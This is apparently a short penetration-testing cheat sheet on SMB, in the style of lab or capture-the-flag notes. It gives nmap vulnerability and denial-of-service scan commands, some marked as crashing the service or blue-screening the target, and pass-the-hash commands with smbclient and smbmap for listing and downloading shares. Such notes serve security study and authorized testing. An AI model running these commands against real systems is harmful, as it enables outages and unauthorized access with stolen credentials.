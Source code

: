 ```yaml
---
layout: default
title: smb
tags:
    - 445
    - block
    - message
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# smb
### nmap scripts
safe vulnerability scan

```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories

```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```

```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```
